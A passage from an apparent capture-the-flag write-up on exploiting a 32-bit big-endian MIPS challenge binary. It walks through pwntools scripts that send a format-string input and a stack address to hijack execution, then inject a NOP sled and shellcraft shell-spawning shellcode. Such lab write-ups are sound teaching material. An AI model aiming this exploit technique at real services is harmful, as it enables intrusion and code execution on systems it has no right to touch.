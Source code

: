 
We execute the script, continue to `*main+88`, and then search for the value:
![[Pasted image 20240802180339.png]]


We successfully find our input on the stack. Let's go ahead and use that as our jump address and see if it works:
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

io = gdb.debug(args=['-L','.','./chall'], exe='./chall', gdbscript='''
        break *main
        break *main+88

        ''')


stack_addr = p32(0x2b2ab1c4)
io.sendline(b'%6$s%1$s')
io.sendline(stack_addr)
io.sendline(b'C'*4+b'B'*100)
io.sendline(b'D'*100)

io.interactive()
```

We run this, and are able to successfully jump onto the our input buffer.
![[Pasted image 20240802225908.png]]


# Getting a shell

Let's replace our input with some shellcode. Should be as simple as swapping out the inputs right?
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

io = gdb.debug(args=['-L','.','./chall'], exe='./chall', gdbscript='''
        break *main
        break *main+88
        break *0x2b2ab1c4

        ''')


shellcode = asm(shellcraft.nop()) * 20
shellcode += asm(shellcraft.sh())

print(hexdump(shellcode))


stack_addr = p32(0x2b2ab1c4)
io.sendline(b'%6$s%1$s')
io.sendline(stack_addr)
io.sendline(shellcode)
io.sendline(b'D'*100)

io.interactive()
```
